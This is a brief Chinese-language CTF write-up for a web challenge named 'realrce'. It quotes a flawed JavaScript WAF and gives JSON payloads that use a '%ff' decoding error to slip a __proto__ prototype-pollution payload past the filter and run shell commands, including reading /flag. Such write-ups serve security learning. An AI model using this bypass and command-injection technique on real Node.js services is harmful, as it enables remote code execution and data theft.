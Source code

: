 # web
### realrce

审计代码,发现只要url解码失效waf就会return false,
```js
function waf(input_code) {
    bypasspin = /%[0-9a-fA-F]{2}/i;
    const bypasscode = bypasspin.test(input_code);
    if (bypasscode) {
        try {
            return waf(decodeURIComponent(input_code));
        } catch (error) {
            console.error("Error decoding input: ", error);
            //漏洞产生点
            return false;
        }
    }
    const blacklist = [/__proto__/i, /constructor/i, /prototype/i];
    for (const blackword of blacklist) {
        if (blackword.test(input_code)) {
            return true;
        }
    }
    return false;
}
```
原型链污染`cmd_rce`属性

非预期执行env获取flag
```json
{"msg":{"__proto__":{"cmd_rce":"ls"},"%ff":""}}
```
本来想着绕过xxd空格,正则还没看懂,结果发现已经绕过去了
```json
{"msg":{"__proto__":{"cmd_rce":"ls;xxd`cat /flag`/flag"},"%ff":""}}
```

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-11-26   05:13